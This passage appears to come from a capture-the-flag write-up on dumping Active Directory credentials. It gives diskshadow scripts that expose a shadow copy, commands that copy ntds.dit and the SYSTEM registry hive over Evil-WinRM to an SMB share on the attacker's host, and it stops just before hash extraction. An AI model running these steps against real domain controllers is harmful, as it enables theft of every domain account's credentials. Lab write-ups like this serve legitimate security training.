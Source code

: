 ```

set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:

```

I wrote another to clean up after I’m done:

```

set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
delete shadows volume df
reset

```

### Grab ntds.dit

I’ll start an SMB server locally on my host so that I can copy the `ntds.dit` file directly there with `smbserver.py s . -smb2support -username df -password df`. Now I can auth to the share:

```
*Evil-WinRM* PS C:\programdata> net use \\10.10.14.14\s /u:df df
The command completed successfully.

```

Now, after running the script to expose the shadow copy, I’ll copy `ntds.dit` to the share:

```
*Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.14\s\ntds.dit

```

It takes a minute, but it succeeds.

To get hashes out of this, I’ll also need the keys from the `SYSTEM` registry file. I’ll save it with `reg`:

```
*Evil-WinRM* PS C:\programdata> reg.exe save hklm\system \\10.10.14.14\system

```

I’ll run my clean up script to close the z: drive.

### Dump Hashes

Now I can use these two files to dump hashes for the full domain using `secretsdump.py`:
